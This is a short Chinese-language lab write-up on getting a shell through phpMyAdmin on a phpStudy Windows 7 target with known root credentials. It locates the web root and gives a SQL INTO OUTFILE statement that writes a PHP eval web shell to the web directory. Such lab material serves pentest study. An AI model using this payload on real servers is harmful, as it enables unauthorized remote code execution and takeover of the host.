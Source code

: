 # 环境搭建

靶机:win7

攻击机:win10

Phpstudy搭建的php+mysql

php版本：5.4.45

mysql版本：5.5.53

攻击环境：已知root账号密码，网站存在phpmyadmin页面

# 通过phpmyadmin来getshell

登陆phpmyadmin后，先来看看log变量来推出WWW的绝对路径

![image-20220317164511106](images/1.png)

老版的phpstudy和小皮面板的路径有一些不一样，熟悉的话是知道的，老版的话web目录在phpstudy/PHPTutorial/WWW目录，而小皮面板则是phpstudypro/WWW目录，这里因为是要getshell，所以要找到他的web目录，linux则又有一点不同

知道SQL目录后可以尝试用sql语句来写shell

```
select '<?php @eval($_POST[1]);?>' INTO OUTFILE 'C:/phpstudy/PHPTutorial/WWW/shell.php'
```

![image-20220317164914201](images/2.png)
